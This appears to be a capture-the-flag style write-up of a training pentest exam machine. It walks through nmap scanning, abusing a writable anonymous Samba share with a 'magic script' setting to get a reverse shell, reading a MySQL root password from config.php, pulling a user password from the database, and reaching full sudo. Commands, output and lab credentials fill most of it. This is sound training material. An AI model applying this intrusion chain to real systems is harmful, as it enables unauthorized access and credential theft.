

# Creatigon Basic Pentest Exam (3)

- March 30, 2022, 10:50 pm
- Singha

---

## Summary

- get `nobody` user access via `smb magic script` which is exposed via `nfs' smb.conf` file
- get sql root password via `config.php` file under `/var/www/html` 
- enter sql and found `creatigon` user access at `password` table in `root` database
- `creatigon` user has all access

## Enumeration

### Nmap

```
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind     syn-ack 2-4 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.6.2
2049/tcp open  nfs_acl     syn-ack 3 (RPC #100227)
8081/tcp open  http        syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-robots.txt: 6 disallowed entries 
| /config.php /administration/ /includes/ /locale/ 
|_/themes/ /print.php
```

### Samba

- smbmap
```
└─$ smbmap -H $IP   
[+] IP: 10.0.2.24:445   Name: 10.0.2.24                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Anonymous                                               READ, WRITE     Good luck! my Dear Students
        IPC$                                                    NO ACCESS       IPC Service (juniorexam3 server (Samba, Ubuntu))
```
- Anonymous share has RW access
- create a text file and put to smb share for later use (may be)

```
└─$ echo "hello from samba" > smb.txt
└─$ smbclient //$IP/Anonymous
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> put smb.txt
putting file smb.txt as \smb.txt (1.8 kb/s) (average 1.8 kb/s)
smb: \> ls
  .                                   D        0  Thu Mar 30 12:34:43 2023
  ..                                  D        0  Thu Jun  9 02:57:06 2022
  smb.txt                             A       17  Thu Mar 30 12:34:43 2023
```

### NFS

- check NFS 

```
└─$ showmount -e $IP                     
Export list for 10.0.2.24:
/var/nfs/share *
└─$ mkdir /tmp/s

└─$ sudo mount $IP:/var/nfs/share /tmp/s

└─$ cd /tmp/s               

└─$ ls -la
total 20
drwxr-xr-x  2 nobody nogroup 4096 Jun  9  2022 .
drwxrwxrwt 16 root   root    4096 Mar 30 12:36 ..
-rw-r--r--  1 root   root    9131 Jun  9  2022 smb.conf
```
- only `smb.conf` file in nfs share directory
- Interesting findings in `smb.conf` file

```
[Anonymous]
comment = Good luck! my Dear Students
path = /var/backups/anonymous
browsable =yes
writable = yes
guest ok = yes
read only = no
force user = nobody
magic script = script
```

## User Access

- if we put script file in smb anonymous share, this script will run
- first create reverse shell that will connect to our local machine
- listen with nc at local machine and put to smb and get `nobody` user access



- from web config file, found sql password
```sh
nobody@juniorexam3:/var/www/html$ cat config.php
cat config.php
<?php
// database settings
$db_host = '127.0.0.1';
$db_user = 'root';
$db_pass = 'passw0Rd@notw!king';
$db_name = 'webapp';
$db_prefix = 'fusion424jf_';
$db_driver = 'pdo';
define("DB_PREFIX", "fusion424jf_");
define("COOKIE_PREFIX", "fusion63VL5_");
define("SECRET_KEY", "8e6P43fG2y3p64Gq99GN3587ZBUs6G62");
define("SECRET_KEY_SALT", "88512G6231b5lT78PeB36Yw89mGeq8x1");
```
- enter sql with this credentials

```sh
nobody@juniorexam3:/var/www/html$ mysql -uroot -p
mysql -uroot -p
Enter password: passw0Rd@notw!king

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 45
Server version: 8.0.29-0ubuntu0.22.04.2 (Ubuntu)
```
- found password table from root database

```sh
mysql> select * from password;
select * from password;
+------+-----------+---------------+
| id   | username  | password      |
+------+-----------+---------------+
|    1 | creatigon | Root@crat1gon |
+------+-----------+---------------+
1 row in set (0.01 sec)
```
- change to `creatigon` user with this password

## Root Access

- `sudo -l`
- creatigon user has all access with sudo

```sh
creatigon@juniorexam3:/tmp$ sudo -l
sudo -l
[sudo] password for creatigon: Root@crat1gon
                                                                                                 
Matching Defaults entries for creatigon on juniorexam3:                                          
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User creatigon may run the following commands on juniorexam3:
    (ALL : ALL) ALL
```

